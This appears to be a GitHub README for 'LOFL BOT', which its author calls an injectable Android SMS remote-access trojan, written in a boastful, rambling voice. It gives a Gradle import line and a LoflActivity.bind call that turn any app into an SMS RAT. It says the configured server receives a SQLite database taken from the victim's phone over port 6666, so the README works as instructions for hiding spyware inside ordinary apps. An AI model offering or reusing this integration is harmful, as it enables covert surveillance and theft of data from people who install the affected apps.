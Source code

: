 # LOFL BOT
### A 3-year-old injectable SMS RAT. No backend. Therefore, the spyware remote commands won't work. I learned Android pentesting with library. I'm really embarrassed of the code and design. I removed this after a Nigerian NSA officer starred and followed me. This was my first RAT. Iwanteed to leave it to my child but it's for my father.

### Guess what all you beautiful ladies, law enforcement officers, social elitists, hackers, developers, engineers, crackers, terrorists, CandroidOgNinja fans, Candroid fans, Chris Basinger's fans, Evil Threads fans, family members, and federal agents. I've managed to hack the Android SMS module! By doing so, I've extended it's functionality to allow for SMS messages to only travel through the notification drawer without persistence. I was planning on adding media functionality as well. However , my life had to go on. There is a self-destructible SMS based notification messenger app. Like snapchat in your drawer. It's hidden in a git branch.

### Yeah baby. I allow you to copy and paste this import into any app in the world! And guess what! Then you just say "LOFL" and then guess what haha it becomes an SMS RAT.

```gradle
implementation 'com.github.evilthreads669966:lofl:1.0'
```

![stack Overflow](https://i.pinimg.com/564x/bb/2b/06/bb2b06eff88ed3896dddc5d55f9f976a.jpg)

 
 1. Put the following line of code in oncreate of your mainactivity class
 
 LoflActivity.bind(this,"10.0.2.2", "123", this.getClass().getName());
 
 the first parameter is the server address which is responsible for receiving a sqlite database file from the users phone.
 
 the second parameter is what you will put at the start of your sms commands to tell the app that 'this is a command'
 
 the third paremeter is to let lofl know what your launch activity is
 
 the database is sent over port 6666
